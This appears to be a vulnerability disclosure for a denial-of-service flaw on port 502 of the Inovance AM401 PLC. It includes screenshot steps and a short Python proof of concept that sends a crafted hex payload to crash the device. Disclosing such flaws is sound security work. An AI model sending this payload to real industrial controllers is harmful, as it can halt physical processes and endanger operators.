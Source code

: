 # Summary
There is a denial of service vulnerability in port 502 of Inovance AM401 PLC. An attacker can send a carefully constructed message to cause the PLC device to crash.

# Details

Connectivity test of the device:
![image](https://github.com/user-attachments/assets/c10898e0-f1ea-4453-9a02-318f157df6b6)


Nmap scans device ports:![image](https://github.com/user-attachments/assets/6f9f906f-79cc-4f75-b223-32c3a2c4e94b)


You can see that port 502 is open.

Then we run the script:![image](https://github.com/user-attachments/assets/10d6dcaa-3119-4a41-9e1c-68cab09f41a6)


Soon you will see the device crash.
![image](https://github.com/user-attachments/assets/ee9b668e-799c-4638-b2f0-2347e4bb7057)

![image](https://github.com/user-attachments/assets/85fa0d0a-6e4d-49c6-a2f8-ee6783c842c0)



# PoC
My host ip is `192.168.1.149` and the device's ip is `192.168.1.88`.

```py
import socket


data = "031100EEFF0504010063006403110000006B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B6B06010100610064F000630064F000009100000000000000"
data = bytes.fromhex(data)
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.88",502))
s.send(data)

```

# Discoverer
ylqncepu@163.com

Li Chunan(804242129@qq.com)

https://github.com/N0zoM1z0

